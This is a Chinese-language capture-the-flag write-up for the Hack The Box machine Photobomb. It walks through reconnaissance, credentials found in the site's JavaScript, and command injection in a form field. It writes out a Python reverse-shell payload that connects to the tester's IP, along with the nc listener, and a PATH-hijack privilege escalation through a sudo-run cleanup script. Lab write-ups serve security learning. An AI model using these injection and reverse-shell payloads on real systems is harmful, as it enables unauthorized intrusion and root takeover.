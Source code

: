 ### 一、信息收集
1. nmap端口扫描
```shell
    nmap -A 10.10.11.182
    # 经探测，存在22、80端口
    # 进行虚拟主机和目录探测都没有有用信息
    # 出现web应用程序的域名：photobomb.htb
```
访问web页面
<img decoding="async" src="./images/Photobomb.png" >

2. 敏感信息收集
- 点击链接：发现使用basic验证服务，暂时没有密码
- 查看源代码
```html
<!DOCTYPE html>
<html>
<head>
  <title>Photobomb</title>
  <link type="text/css" rel="stylesheet" href="styles.css" media="all" />
  <script src="photobomb.js"></script>
</head>
<body>
  <div id="container">
    <header>
      <h1><a href="/">Photobomb</a></h1>
    </header>
    <article>
      <h2>Welcome to your new Photobomb franchise!</h2>
      <p>You will soon be making an amazing income selling premium photographic gifts.</p>
      <p>This state of-the-art web application is your gateway to this fantastic new life. Your wish is its command.</p>
      <p>To get started, please <a href="/printer" class="creds">click here!</a> (the credentials are in your welcome pack).</p>
      <p>If you have any problems with your printer, please call our Technical Support team on 4 4283 77468377.</p>
    </article>
  </div>
</body>
</html>
```
> 发现脚本<script src="photobomb.js"></script>，并进行访问
```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
//  pH0t0:b0Mb! 为用户和密码
```
> 使用该用户和密码登录链接跳转到图片下载页面

<img decoding="async" src="./images/Photobomb1.png" >

3. 使用Burb Suit查看请求包
```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac 6666666666OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=kevin-charit-XZoaTJTnB9U-unsplash.jpg&filetype=jpg&dimensions=3000x2000
--  出现三个字段可能存在注入
```

### 二、漏洞发现
1. 本地启动web服务
> python3 -m http.server 5000

2. 更改请求包
```shell
photo=kevin-charit-XZoaTJTnB9U-unsplash.jpg&filetype=jpg;curl+10.10.16.17:5000&dimensions=3000x2000
# curl+10.10.16.17:5000 验证是否可以访问本地服务，如果可以就能反弹shell
```
> 经过验证，确实可以访问本地服务，因此确定存在漏洞


### 三、漏洞利用
1. 生成反弹shell的payload
```shell
export+RHOST="10.10.16.17";export+RPORT=4444;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in(0,1,2)];pty.spawn("/bin/bash")'
```

2. 本地启动端口监听
> nc -lvnp 4444

3. 获得webshell
```shell
photo=kevin-charit-XZoaTJTnB9U-unsplash.jpg&filetype=jpg;export+RHOST="10.10.16.17";export+RPORT=4444;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in(0,1,2)];pty.spawn("/bin/bash")'&dimensions=3000x2000
# 上传该payload既可以拿到webshell
```

### 四、权限提升
1. 寻找可以使用的SUID文件
```shell
# 执行语句
find . -perm /4000

# 文件范围，没有找到可以使用的
usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
```

2. 在opt目录发现日志清除脚本:/opt/cleanup.sh  
```shell
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

### find脚本使用相对路径
```

3. 提权
```shell
echo "/bin/bash" > find
chmod +x find 
sudo PATH=$PWD:$PATH /opt/cleanup.sh  
```


